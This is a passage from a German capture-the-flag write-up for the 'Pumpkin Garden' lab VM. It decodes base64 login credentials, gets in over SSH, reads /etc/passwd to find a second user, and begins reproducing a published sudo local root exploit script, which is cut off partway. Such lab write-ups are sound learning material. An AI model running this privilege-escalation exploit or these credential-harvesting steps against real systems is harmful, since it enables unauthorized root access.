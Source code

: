 #### Zweite wichtige Erkenntnis: base64 ist kein Hash! Die Länge eines base64 strings variiert, weil er die unverschlüsselten Daten enthält. Hashes wie z.B. SHA1 oder MD5 haben eine fixe Länge. 20 Byte für SHA1 und 16 Byte für MD5.

Um den String über base64 entschlüsseln zu lassen hilft folgender Befehl:

`echo c2NhcmVjcm93IDogNVFuQCR5 | base64 -d`

Voilá `scarecrow : 5Qn@$y`

Das sieht sehr nach Login Daten aus!

## SSH

Mal sehen, ob die Daten als SSH-Login funktionieren:

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-2.png)

Oh ja, das tun sie! Ein wichtiger Schritt ist gemacht, ich bin im System der VM.

Nachdem ich `ls -la` eingegeben hatte, fiel mir eine Textdatei auf: note.txt

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-3.png)

Goblin? Was für ein Goblin? Ist das ein neuer Benutzername?
Die `/etc/passwd` kann man eigentlich immer auslesen. Da sieht man sehr gut, dass es einen Benutzer "goblin" gibt.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-4.png)

Mal sehen, ob der komische Text aus der note.txt das Passwort für goblin ist.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-5.png)

Super, das hat schon mal funktioniert! Zuerst umschauen, was es hier gibt mit: `ls -la` 

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-6.png)

## Privilege escalation

Na das liest sich doch super! Dummerweise war das eine Sackgasse, weil die Seite einen 404er Error gebracht hat. Mies, und jetzt?

Was immer sehr gut hilft, ist "Tante Google"! Nach ein paar Minuten hatte ich rausgefunden, was sich hinter dem Link hätte verbergen sollen:

Ein Bash-Script, was mich zum root machen sollte.

So sieht das Script aus:
````
#!/bin/sh
# Tod Miller Sudo 1.6.x before 1.6.9p21 and 1.7.x before 1.7.2p4
# local root exploit
# March 2010
# automated by kingcope
# Full Credits to Slouching
echo Tod Miller Sudo local root exploit
echo by Slouching
echo automated by kingcope
if [ $# != 1 ]
then
echo "usage ./sudoxpl.sh <file you have permission to edit>"
exit
fi
# cd /tmp
cat > sudoedit << _EOF
#!/bin/sh
````
